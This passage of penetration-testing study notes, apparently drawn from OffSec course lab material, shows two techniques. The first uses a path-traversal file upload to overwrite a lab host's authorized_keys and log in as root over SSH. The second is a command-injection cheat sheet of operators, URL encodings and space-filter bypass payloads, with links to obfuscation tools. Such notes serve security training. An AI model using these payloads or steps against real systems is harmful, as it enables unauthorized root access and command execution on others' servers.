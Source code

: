 If we can upload a file and include `../` in the file name, maybe we can overwrite the **authorized_keys**:

```bash
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fileup
Your public key has been saved in fileup.pub
...

kali@kali:~$ cat fileup.pub > authorized_keys
```

![](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/commonwebattacks/999ddab4c6543dc3d727618bc14ed495-cwa_fu_burprelsshcom.png)

SSH can throw an error if it cannot verify the host key it saved previously. If this happen, remove `~/.ssh/known_hosts`

```bash
kali@kali:~$ rm ~/.ssh/known_hosts

kali@kali:~$ ssh -p 2222 -i fileup root@mountaindesserts.com
The authenticity of host [mountaindesserts.com]:2222 ([192.168.50.16]:2222) cant be established.
ED25519 key fingerprint is SHA256:R2JQNI3WJqpEehY2Iv9QdlMAoeB3jnPvjJqqfDZ3IXU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
root@76b77a6eae51:~#
```

### Command Injection

First of all, try to find all blacklisted/whitelisted characters one by one.

**[Bashfuscator](https://github.com/Bashfuscator/Bashfuscator)**
**[DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)**

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|\|`                  | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |
**Bypassing Space Filters**
* Using tabs: `127.0.0.1%0a%09`
* Using IFS: `127.0.0.1%0a${IFS}`
* Using brace expansion: `127.0.0.1%0a{ls,-la}`
